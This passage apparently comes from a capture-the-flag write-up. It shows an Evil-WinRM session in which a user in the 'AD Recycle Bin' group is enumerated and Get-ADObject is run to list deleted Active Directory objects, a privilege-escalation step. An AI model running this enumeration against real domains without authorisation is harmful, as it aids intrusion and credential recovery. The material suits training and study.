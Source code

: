 ## Privilege Escalation

Checking about user `arksvc`, shows he is the group of `AD Recycle Bin`

```c
*Evil-WinRM* PS C:\> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   3/30/2020 12:37:25 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

> The Active Directory Recycle Bin was introduced in the Windows Server 2008 R2 release. The goal of this feature was to facilitate the recovery of deleted Active Directory objects without requiring restoration of backups, restarting Active Directory Domain Services, or rebooting domain controllers.

After some googling, Since we are in `AD Recycle Bin` group, I found this command and it retrieve the deleted stuffs.

```powershell
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
.
.
.
.
.
.
Name                            : User
                                  DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : container
ObjectGUID                      : 746385f2-e3a0-4252-b83a-5a206da0ed88
ProtectedFromAccidentalDeletion : False
sDRightsEffective               : 0
showInAdvancedViewOnly          : True
uSNChanged                      : 196700
uSNCreated                      : 196690
whenChanged                     : 1/26/2020 2:40:52 AM
whenCreated                     : 1/26/2020 2:34:31 AM

```